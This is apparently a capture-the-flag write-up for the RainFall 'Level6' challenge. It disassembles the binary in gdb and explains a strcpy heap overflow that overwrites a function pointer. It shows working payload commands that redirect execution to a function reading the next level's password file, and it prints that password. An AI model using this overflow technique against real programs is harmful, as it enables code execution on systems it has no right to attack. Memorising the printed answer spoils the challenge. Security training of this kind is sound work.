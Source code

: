 # Level6

```nasm
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp
   0x0804847d <+1>:     mov    ebp,esp
   0x0804847f <+3>:     and    esp,0xfffffff0
   0x08048482 <+6>:     sub    esp,0x20                    // Allocate a 0x20 (32) bytes stack
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40        // Put the value 0x40 (64) on top of the stack
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>      // Call malloc
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax    // Put the return of malloc on the stack at 0x1c (28)
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4         // And put 4 on top of the stack
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>      // Call malloc again
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax    // Move the result of this malloc on the stack at 0x18 (24)
   0x080484a5 <+41>:    mov    edx,0x8048468               // Move into edx the address of m
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18]    // Get the pointer to the second malloc chunk
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx         // Move into that chunk the address of m (in edx)
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc]     // Move into eax argv 
   0x080484b3 <+55>:    add    eax,0x4                     // Add 4 to that -> argv[1]
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax]         // Get the actual value of argv[1]
   0x080484b8 <+60>:    mov    edx,eax                     // Copy it into edx
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c]    // Get a pointer to the first malloc
   0x080484be <+66>:    mov    DWORD PTR [esp+0x4],edx     // Move as second argument argv[1]
   0x080484c2 <+70>:    mov    DWORD PTR [esp],eax         // Move as first argument the first malloc
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>      // Call strcpy
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]    // Point at the second malloc's chunk
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]         // Get the actual value of that
   0x080484d0 <+84>:    call   eax                         // Call it
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
```

```nasm
(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   ebp
   0x08048469 <+1>:     mov    ebp,esp
   0x0804846b <+3>:     sub    esp,0x18
   0x0804846e <+6>:     mov    DWORD PTR [esp],0x80485d1         // Put on the stack the string "Nope"
   0x08048475 <+13>:    call   0x8048360 <puts@plt>              // Call puts
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
```

```nasm
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   ebp
   0x08048455 <+1>:     mov    ebp,esp
   0x08048457 <+3>:     sub    esp,0x18
   0x0804845a <+6>:     mov    DWORD PTR [esp],0x80485b0         // Put on the stack the string "/bin/cat /home/user/level7/.pass"
	 0x08048461 <+13>:    call   0x8048370 <system@plt>            // Call system
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```

Clearly we need to call `n` in some way.

The code is a bit more complex so let’s break it down :

There are two `malloc` calls : one is 64 bytes large and is pointed to at `0x1c` on the stack, the other is 4 bytes and is stored at `0x18`.

The address of m is then stored in the 4 bytes chunk.

Then there is a call to `strcpy` with these arguments : `(dest, src) dest = first malloc (64 bytes) src = argv1 (our input)` 

Then we retrieve the second `malloc`’s chunk (the address of `m` ) and we call it !

The exploit is with `strcpy` as it doesn’t check for overflow, we can try to input a string larger than 64 bytes to overwrite the address in the second chunk with `n` ’s address.

```bash
level6@RainFall:~$ ./level6 $(python -c 'print "x"*64 + "\x54\x84\x04\x08"')
Nope
```

This means we didn’t overwrite the address properly since we’re still redirected to `m` .

But if we look at the way `malloc` handles chunk, we can see that there is a bit more data than the chunk itself that is allocated (alignment and metadata).

This means we can try to increase slowly the size of our payload until we reach the right address :

```bash
level6@RainFall:~$ ./level6 $(python -c 'print "x"*68 + "\x54\x84\x04\x08"')
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 $(python -c 'print "x"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

And there we go !